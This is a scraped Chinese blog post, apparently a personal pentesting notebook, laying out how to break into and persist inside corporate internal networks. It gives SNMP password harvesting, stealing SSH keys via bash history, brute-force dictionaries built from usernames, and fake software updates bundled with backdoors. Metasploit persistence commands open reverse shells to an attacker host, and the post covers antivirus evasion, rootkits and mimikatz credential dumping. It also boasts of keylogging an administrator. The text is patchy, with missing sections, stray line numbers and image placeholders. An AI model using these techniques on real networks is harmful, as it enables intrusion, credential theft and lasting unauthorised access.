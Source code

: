 ```yaml
---
layout: post
title: Misc-center
tags: Misc
categories: 👓Linux
---
```


## Misc-center

1. nmap -sP 172.19.16.1/24   发现扫描主机.

2. 查看 host 获取局域网信息.

3. 直接攻击网段路由或交换机，简单绘制内网的结构
（我在从TCL某漏洞看内网渗透教学分享之内网信息探测和后渗透准备中就是获取了cisco路由的privilege15权限，得到了内网结构，进一步进行跨vlan攻击）


4. 多尝试交换机snmp弱口令，一旦成功，内网结构清晰


	•	关于snmp渗透  
	什么是snmp  
	使用了snmp管理的设备，只需要community string即可，所以针对这个string爆破或者社工都是可行的，默认public/private  
	首先进行161端口扫描，发现snmp开放情况，通过弱口令查看设备信息，在oid中读取设备密码  
	￼
	•	  
	例子：中国移动集团华为三层交换SNMP漏洞，可获取管理帐号密码，已成功登录  
	可以通过这个nmap和msf脚本进行自动攻击h3c-pt-tools
	•	尝试从主机的用户目录或者管理运维邮箱寻找敏感信息(某次渗透即是keylogger运维后在测试机桌面获取到拓扑和网段)  
	￼
	•	
	•	通过resolv.conf找到内网dns服务器，或者字典穷举dns
	•	注意分析用户的.bash_history，一般可以分析出用户的使用习惯，纪录等,获取/.shh/，尝试配合history的连接纪录直接通过密钥登陆其他机器
0x03 内网渗透的常见攻击技巧

•	通过之前的信息收集和探测，判断出主要的业务机器，如OA，dbserver，利用ssh信任，连入机器后导出员工的userlist，做成针对性的字典，大部分内网的安全性都是脆弱的，且最容易出问题的就是口令安全（大公司也不例外）  
%username%1  
%username%12  
%username%123  
%username%1234  
%username%12345  
%username%123456

主要对ssh,dbserver,vnc,ftp进行爆破
￼
•	对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
•	中间人攻击
常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm
也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网
￼
￼
简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了
￼
•	常见服务漏洞攻击  
smb/ms08067/ipc$/NetBIOS…………
但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样
比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AVPowershell tricks::Bypass AV
0x04 后渗透准备和扩大战果

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的
1. 后门准备

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求
普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门
msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)
通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务
1
2
3
4
5
meterpreter \> run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit
通过启动项的利用方式：
1
2
3
4
5
meterpreter \> run persistence -X -i 10 -p port -r hostip
 
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
当然，直接生成的后门有可能会被杀，所以这里我推荐一个很不错的工具，veil，之前再一次小型apt中用这个生成了的后门直接bypass了360
linux下有两个常用的后门
mafix rookit和Cymothoa，后者听说可以克隆root用户，不过大部分的backdoor基本都相当于一个加密nc，会新开端口，所以如果webshell存活，可以直接考虑用webshell维持权限





3. hash

mimikatz，不用多说，利用meterpreter可以直接load模块
Quarks PwDump
wce
0x05 something else

内网渗透涉及的面很广，本文主要说到的是一些很简单的问题和常规的思路
尚未谈到的 域渗透 打印机 办公网嗅探 入侵日志清理等等
如果有机会，日后慢慢补全



